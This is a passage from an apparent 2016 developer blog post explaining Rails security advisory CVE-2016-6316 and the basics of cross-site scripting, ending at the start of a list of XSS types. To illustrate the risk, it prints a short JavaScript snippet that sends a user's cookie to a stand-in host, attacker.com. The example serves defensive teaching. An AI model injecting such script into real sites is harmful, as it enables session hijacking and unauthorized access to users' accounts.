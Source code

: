 ```yaml
---
id: 436
title: Do I really need to patch my Rails apps? (Understanding CVE-2016-6316)
date: 2016-10-31T10:01:39-04:00
author: Sid
layout: post
guid: http://ducktypelabs.com/?p=436
permalink: /do-i-really-need-to-upgrade-my-rails-apps/
cta_content_placement:
  - below
classic-editor-remember:
  - classic-editor
categories:
  - Security
---
```

Ruby and Rails security advisories, without exception, recommend that you upgrade your Rails app as soon as possible. Unfortunately, the descriptions of the problem being solved can be cryptic, and it can be hard to assess if you really need to do the upgrade. If you&#8217;re strapped for time, it can seem like a good plan to postpone upgrades and avoid extra work like fixing breaking tests.

**Note:** By &#8220;upgrade&#8221; in this article, we mean a &#8216;minor&#8217; or a &#8216;patch&#8217; upgrade. For example an upgrade from Rails `4.2.5.1` to `4.2.7.1`.

In this article, we&#8217;re going to look at Rails `5.0.0.1/4.2.7.1/3.2.22.3`, which fixes [CVE-2016-6316](https://groups.google.com/forum/#!topic/rubyonrails-security/I-VWr034ouk). The aims of this article are:

  1. To go over the basics of XSS vulnerabilities, how they can be exploited, and ways to mitigate them. 
  2. To increase your understanding about the specific problem being solved with the Rails `5.0.0.1/4.2.7.1` release which fixes CVE-2016-6316 &#8211; an XSS vulnerability in `ActionView` and,
  3. Help you come to a conclusion on whether you should upgrade or not

## What is an XSS Vulnerability?

&#8220;XSS&#8221; stands for cross-site scripting. When your application has an XSS vulnerability, attackers can run malicious Javascript on your users&#8217; browsers. For example, consider a Javascript snippet like the following:

    var i = new Image;
    i.src = "http://attacker.com/" + document.cookie;
    

The above snippet, when run on a user&#8217;s browser, will cause the browser to make a request to `attacker.com` and send over the user&#8217;s cookie. Using this cookie, the attacker can proceed to hijack the user&#8217;s session and gain unauthorized access to secured areas of your app.

## Types of XSS Vulnerabilities

There are three major varieties of XSS:

**Reflected XSS**
